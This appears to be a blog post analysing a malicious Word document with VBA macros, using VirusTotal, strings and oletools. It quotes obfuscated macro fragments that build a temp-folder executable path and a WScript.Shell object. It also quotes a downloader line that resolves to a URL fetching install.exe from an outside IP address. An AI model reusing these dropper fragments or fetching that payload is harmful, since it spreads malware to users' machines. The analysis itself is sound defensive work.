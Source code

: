 ```yaml
---
title:  "Malicious Document Analysis"
author: Vince Jang
date: 2024-01-15 00:00:00 +0000
categories: [projects]
tags: [projects]
image: /assets/img/dd.png
render_with_liquid: false
---
```


# Malicious Document Analysis(DOC VBA)

Weaponized MS office documents pose a large risk to organizations.. From embedded active content, such as scripts and HTML code in Word and Powerpoint files to Excel macros, this is an attack vector every organization must pay attention to. About 1 million companies worldwide use Office 365 and 70% of Fortune 500 companies purchased O365 in 2020. As a result, nearly every business transaction involving a file transfer will likely be in a Microsoft office format at risk of containing malware.

![images](/assets/img/pic10.1.1.PNG)  
Have you ever seen this warning when opening MS Office files? And did you just click it? This is the danger you should be aware of. As soon as you click the 'Enable Content' button, your whole computer could be compromised. Unfortunately, people still click it

## Macro
Macros is A small program that is often written to automate repetitive tasks in MS Office applications. Macros are typically written in Visual Basic for Application(VBA), a programming language developed by microsoft that is supported by all Microsoft Office products.

## Tools
1. Linux / highly recommend REMnux on VirtualBox but I will use Kali for instance
2. ExifTool, Strings, Xorsearch and more
3. Olevba to extract malicious macros

## Analysis 

I am going to do basic dynamic analysis with [Virustotal](https://www.virustotal.com/gui/home/upload),  
We are going to Extract Hash key of Baddoc.doc(Malicious file)  
![images](/assets/img/pic10.1.PNG)  
and we are going to use Search module in Virustotal to see what information we can get.  
![images](/assets/img/pic10.2.PNG)  
![images](/assets/img/pic10.3.PNG)  
![images](/assets/img/pic10.4.PNG)  
![images](/assets/img/pic10.5.PNG)  
As you can see we can find all information such as file names, create dates, contacted IP addresses, drop files, sand box reports, registry set keys and many more  
Do you think this is malicious file? I agree but I need more information, Let's dig into it.  

if you are using REMnux all tools are pre installed, If you using other Linux you might need to install some of tools.  
![images](/assets/img/pic10.6.PNG)  
Let's start analyze  
![images](/assets/img/pic10.7.PNG)  
We can see the Language code is "Russian" and Template type is ".dotm" which is Macros.  
this is pretty suspicious to me.  
## What to look for
1. IP addresses
2. Website / http
3. Domains
4. File locations that are suspicious
5. Malicious code
6. Malicious files  
Okay lets type `strings -n 5 baddoc.doc` (it basically means find strings anything longer than 5 characters)  
![images](/assets/img/pic10.8.PNG)  
![images](/assets/img/pic10.9.PNG)  
![images](/assets/img/pic10.10.PNG)  
I can see some IP addresses and File directories which is suspicious but it's really messy and hard to look.  
Let's use other tools  
I installed oletools 
![images](/assets/img/pic10.12.PNG)  
and excute it.  
![images](/assets/img/pic10.13.PNG)  
![images](/assets/img/pic10.14.PNG)  
We can see more organized information such as this document is not encryped and this file contains VBA Macros, but still Very Basic.  
Let's see what is in VBA script.  
![images](/assets/img/pic10.15.PNG)  
![images](/assets/img/pic10.16.PNG)  
Here we go. It highlighted suspicious keywords and we can have a look in more details.  
If we open this file all the code in this file will be excuted.  
![images](/assets/img/pic10.17.PNG)  
For example, I found a code line `"$file = 'c:\Users\" + USER + "\AppData\Local\Temp\" + "4" & "44." + Chr(101) & "xe';"`,`Chr(Asc("C")) + "reate" + "O" + "bject(" + Chr(34) + "W" + "S" + "cript." + "S" + "hell" + Chr(34) + ")" + "" & ""` this is malicious code. they use divided strings to hide the actual code they want to excute.  
I still want to see more Detail,
So, I decoded all the malicious code file.  
![images](/assets/img/pic10.18.PNG)  
And it looks like this.  
![images](/assets/img/pic10.19.PNG)  
![images](/assets/img/pic10.20.PNG)  
![images](/assets/img/pic10.21.PNG)  
![images](/assets/img/pic10.22.PNG)  
"It gives us more details in keywords and descriptions, such as PowerShell commands, executable file names, temporary directories, ping, and many more. With this information, I am 100% sure that this is a malicious file.  
One thing that is really interesting is the use of a bit of a twist: `Print #FileNumber, "strRT = ""http://91.220.131" + JASHDUIQWHDKJQAD + ".exe""` . If you find "JASHDUIQWHDKJQAD" in this code, it is it is ![images](/assets/img/pic10.24.PNG)  
In this case This URL is going to install something and it will be `http://91.220.131.44/upd/install.exe` Now we know IP address, Malicious file and the path.  
SO, DO NOT OPEN IT!










